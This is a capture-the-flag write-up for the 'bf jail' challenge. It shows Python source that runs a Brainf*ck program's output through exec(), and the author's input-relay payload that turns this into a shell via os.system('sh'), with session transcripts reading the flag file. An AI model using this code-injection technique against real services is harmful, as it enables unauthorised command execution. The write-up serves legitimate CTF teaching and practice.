 <details>
<summary>++++++++++[.,]</summary>

# bf jail write-up (WWCTF 2025)

**Name:** bf jail

**Description:** Jail but with my best friend? That doesn't sound too bad. Oh wait...

**Type:** Miscellaneous / Brainf\*ck / Code Golf

**Points:** 127

**Author:** dfoo

**File:** [chall.py](/bf%20jail/chall.py)

## Analysis

Check the code:
```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output
...
```
Ok it's just brainf\*ck parser, keep reading:
```python
...
if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```
Hmm, so it's golfing with brainf\*ck. It's also friendly enough to run whatever our brainf\*ck code spits out - that's promising, just get the code to generate `import os;os.system('sh')` and we get the shell.

## Attempts to solve

### 0. Golfing

Get a generator to convert the string above into brainf\*ck, and perform all the necessary cancellations and optimizations possible.

However, I'm new to golfing with brainf\*ck and ~am a lazy a\*\*~ don't want to [learn it](https://codegolf.stackexchange.com/questions/12973/tips-for-golfing-in-brainfuck) on the fly, so I need to find an easier way out.

### 1. Input

Look at the parser more carefully:
```python
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
```
That's helpful - we're allowed to enter stuff ourselves! Just get a piece of basic brainf\*ck code to relay our input to output and we're done:
```brainfuck
+[,.]
```
`+` increase the data pointer to 1 to enter the loop. The loop is kept open as long as the character has an ASCII code greater than 0 (i.e. not a null byte). We can then enter whatever we want and finish with a null byte:
```
$ nc chal.wwctf.com 6002
> +[,.]
import os 
os.system('sh')
^@
Traceback (most recent call last):
  File "/app/run", line 53, in <module>
    exec(code)
ValueError: source code string cannot contain null bytes
```
It even support multiline code now, and...

Oh... the null byte is going to enter the string too. Gotta fix that now.

### 2. Not letting the null byte in

The simplest fix is to swap `,` and `.` so the entered character is tested by `[` first. The downside is that whatever is before `[` will get put in as the first character. The first character we want is `i` with ASCII code 105, so...
```
$ nc chal.wwctf.com 6002
> +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++[.,]
mport os
os.system('sh')
^@
echo Voilà!  # input
Voilà!
```
We have the shell now.

### 3. Optimize the solution

The above works, but it is:
- ugly: the first character always gets left out
- not general: if we want to change the first character (if we ever want to do this), we have to count the number of `+`s again

Then suddenly, I had a spark in my mind: `\n` is a valid Python code! The brainf\*ck code then greatly simplifies:
```brainfuck
++++++++++[.,]
```
`++++++++++` sets the data pointer to 10 (the ASCII code of `\n`), the first execution of `.` then puts down a `\n`, and the loop executes until a null byte is entered, which is discarded. With this, we finally have

## The solution
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
import os
os.system('sh')
^@
ls  # input
flag.txt
run
cat flag.txt  # input
wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}
```
I really liked this solution. You can now run Python code as it is from a file:
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
while True:
    print(input('> ').replace('I', 'you')
                     .replace('my', 'your')
                     .replace('am', 'are'))
^@
> 
> What am I doing with my life
What are you doing with your life
> bruh
bruh
> 
```

---
<details>
<summary>Afterthought</summary>

As the author @dfoo said in the Discord chat, the uploaded version of the challenge was unfortunately the wrong version. The correct version should also blacklist `,` and certain keywords, forcing the players to golf `import os;os.system('sh')` in brainf\*ck. I feel a bit sorry about this, but hey, that's all the fun isn't it? 😉

As [@maximxlss](https://github.com/maximxlss) pointed out, the idea in [stage 1](#1-input) will work with some simple nested brackets:
```brainfuck
+[,[.>]<]
```
This ended up even shorter than my final solution, and really captures the original spirit of the challenge even in this wrong version. I greatly appreciate the simplicity of this solution, so I relayed it here.

That being said, my monke brain would not have worked that out during the event 🤪
</details>
</details>
